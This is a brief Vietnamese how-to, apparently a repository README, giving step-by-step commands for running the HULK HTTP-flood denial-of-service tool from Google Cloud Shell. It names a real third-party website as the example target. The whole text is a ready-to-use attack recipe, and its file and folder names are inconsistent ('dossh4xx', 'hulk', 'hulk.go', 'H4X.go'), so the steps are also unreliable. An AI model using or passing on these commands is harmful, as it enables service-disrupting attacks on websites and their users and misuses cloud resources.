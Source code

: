 Truy cập vào : https://shell.cloud.google.com/?fromcloudshell=true&show=terminal

dán lệnh này vào : sudo apt install golang

dán lệnh này vào : sudo apt install git (nhớ đợi chạy xong , nó ra (Y/N) Chọn Y)

dán vào : git clone https://github.com/deeth781/dossh4xx

dán vào: sudo apt update

cd hulk

bắt đầu chạy nào go run hulk.go -site Url      Ví dụ(  go run H4X.go -site https://zefoy.com/)
